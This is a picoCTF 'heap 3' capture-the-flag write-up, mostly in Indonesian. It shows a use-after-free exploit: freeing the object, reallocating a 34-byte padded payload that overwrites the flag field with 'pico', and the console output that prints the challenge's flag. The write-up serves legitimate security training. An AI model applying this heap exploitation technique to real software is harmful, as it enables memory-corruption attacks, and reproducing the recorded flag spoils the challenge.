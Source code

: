 <h1>heap 3</h1>
<h3>Description</h3>
<p>This program mishandles memory. Can you exploit it to get the flag?
Download the binary <a href='https://artifacts.picoctf.net/c_tethys/19/chall'>here</a>.
Download the source <a href='https://artifacts.picoctf.net/c_tethys/19/chall.c'>here</a>.
Connect with the challenge instance here:
nc tethys.picoctf.net 60352</p>
<h3>Solution</h3>
<p>Pada source code terdapat type struct yang panjangnya 32 bytes, 1 char = 1 byte</p>

```c
typedef struct {
  char a[10];
  char b[10];
  char c[10];
  char flag[5];
} object;
object *x;
```
<p>Dan, pada *x struct alokasi flag "bico", yang berarti 30 alokasi sebelumnya kosong</p>

```c
x = malloc(sizeof(object));
strncpy(x->flag, "bico", 5);
```
<p>pada server NC kita bisa clear alokasi memory terlebih dahulu sebelum digunakan kembali, pilih nomor 5</p>
<p>Lanjut pilih nomor 2 untuk alokasi string "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbb"-> 35 bytes</p>

```console
freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 5

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 2
Size of object allocation: 35
Data for flag: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbb

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 3


x = bbbbb
```
<p>Hasil x->flag menjadi bbbbb, karena alokasi flag ada 5 bytes, lanjut ganti bbbbb dengan "pico"</p>

<pre>
  payload=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaapico
</pre>

```console
1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 2
Size of object allocation: 34
Data for flag: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaapico

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 4
YOU WIN!!11!!
picoCTF{now_thats_free_real_estate_e8938a97}
```
<h3>Flag</h3>
<pre>
picoCTF{now_thats_free_real_estate_e8938a97}
</pre>

